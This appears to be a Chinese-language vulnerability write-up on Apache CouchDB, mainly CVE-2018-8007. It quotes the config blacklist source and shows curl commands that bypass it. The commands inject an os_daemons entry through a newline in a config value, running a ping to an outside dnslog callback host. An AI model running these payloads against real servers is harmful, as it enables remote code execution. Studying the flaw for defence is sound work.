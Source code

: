 ### CVE-2018-8007
参考链接：https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/  
2.1.1版本再执行CVE-2017-12636中的`/_node/couchdb@localhost/_config/query_servers/cmd`会报错forbidden，显示`Config section blacklisted for modification over HTTP API.`  
查看源码文件`https://github.com/apache/couchdb/blob/master/src/couch/src/couch_util.erl`，会发现黑名单相关代码如下。query_servers被列入到了黑名单中，符合上面测试中的报错信息。
```
define(BLACKLIST_CONFIG_SECTIONS, [
<<“daemons”>>,
<<“external”>>,
<<“httpd_design_handlers”>>,
<<“httpd_db_handlers”>>,
<<“httpd_global_handlers”>>,
<<“native_query_servers”>>,
<<“os_daemons”>>,
<<“query_servers”>>
]).
 
check_config_blacklist(Section) ->
case lists:member(Section, ?BLACKLIST_CONFIG_SECTIONS) of
true ->
Msg = <<“Config section blacklisted for modification over HTTP API.”>>,
throw({forbidden, Msg});
_ ->
ok
end.
```
发现者换了一种写配置文件的方法，将如下内容写到了local.ini中。此时的`os_daemons`在请求体中而不是url中，绕过config对于API的过滤。
```
curl -X PUT http://localhost:5984/_node/couchdb@localhost/_config/cors/origins -d "\"http://testdomain.com\n\n[os_daemons]\nhackdaemon=ping h2eidk.dnslog.cn\"" -H "Content-Type: application/json"
```
也可以从os_daemons官方文档中找到其他路径来完成访问
```
curl -iv -X PUT http://localhost:5984/_node/couchdb@localhost/_config/update_notification/index-updater -d "\"ping h2eidk.dnslog.cn\"" -H "Content-Type: application/json"
```

### CVE-2021-38295
参考链接： https://www.secureideas.com/blog/digging-between-the-couch-cushions  

### CVE-2022-24706
https://www.exploit-db.com/exploits/50914  


